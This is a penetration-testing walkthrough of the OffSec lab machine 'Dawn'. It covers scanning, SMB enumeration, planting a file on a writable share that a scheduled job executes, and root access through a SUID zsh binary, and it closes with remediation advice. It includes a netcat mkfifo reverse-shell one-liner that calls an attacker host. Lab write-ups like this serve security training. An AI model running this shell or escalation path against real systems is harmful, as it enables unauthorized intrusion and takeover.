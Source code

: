 OffSec <br>
Dawn
---
 

# Reconnaissance/Scanning:
Let’s start things off with a network scan to see which ports are open and the services running on each.
```
$ nmap -A -O -sC -sV -p- <machine_IP>
```
![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/1c2ae617-3838-4e03-ad6b-117f7f75462e)
 
Scanning for directories with Gobuster: 

![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/8952c660-bb60-4328-9140-a4ad6f9941a4)

Contents of /logs directory:

![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/1fcc0626-9845-4e86-87cf-fb67e8531367)
 
I couldn’t view any except the management.log file. I’ll parse through that after I enumerate some more.

Enumerating the SMB server:
```
$ smbmap -H <machine_IP>
```
![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/40450078-f334-4df7-a938-cb4e6cd9aa8e)
 
I have full access to the share, however there are no files for me to get. <br>
With write abilities, I should be able to upload a reverse shell, I just need to figure out how to get the server to open it.

# Initial foothold:
Exploring the mamangement.log file it shows that pspy64 was put on this file.  <br>
Meaning that I can see the processes that were running at a certain point in time from the machine. <br>

“pspy is a command line tool designed to snoop on processes without need for root permissions. 
It allows you to see commands run by other users, cron jobs, etc. as they execute. 
Great for enumeration of Linux systems in CTFs. Also great to demonstrate your colleagues 
why passing secrets as arguments on the command line is a bad idea.”

![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/5c9ee0ef-5bc2-4299-ab5b-76fbd7cee757)
 
Then I see that a shell is executing a file named product-control from the /ITDEPT directory.

![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/d6513987-19d9-4aad-82c7-229b2eeaa954)
 

I can see that there’s no file in that directory, so I’ll make my own file called `product-control`  <br>
and put it on the share since I have write access. And inside it I’ll put my one liner reverse shell code.
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <attack_IP> <PORT> >/tmp/f
```
![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/ac80e68d-b481-4e1c-96af-bfab1d517a52)
 
After getting that uploaded, I waited a few seconds and then the reverse shell came through on my netcat listener!

![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/739888a9-3e09-4b44-a188-c516c0db0c0c)
 
I’ll grab the user flag since I have access now.

![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/5ee1d017-1a97-4875-9cc4-249465344ae8)
 

# Exploit:
I didn’t see any cronjobs running, aside from the one executing the reverse shell,  <br>
and there was nothing else noteworthy in the user’s home directory. <br>
I wanted to see if there were any binaries with the SUID bit set for this user.
```
$ find / -perm -u=s -type f 2>/dev/null
```
![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/10056178-a0ed-4a56-87db-5090df9e8682)

Awesome, I can run zsh, another type of shell, as this user with higher privileges!

# Privilege Escalation:
I went to the directory /usr/bin and ran the executable from there.

![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/39a93301-3c00-4614-b02f-81ac278d26e6)
 
And now i’ve got root privileges! <br>
Time to get the root flag!

![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/62ebe6a7-1cb7-4a02-ab9d-96085632faf8)
 

# Reporting:
•	Make sure to remove files from the web server that have sensitive information or are not in use anymore. <br>
•	Regularly check the scheduled tasks in case they need to be revised/removed. <br>
•	Ensure correct permissions are set for users/groups and access to files/binaries on system are checked regularly.
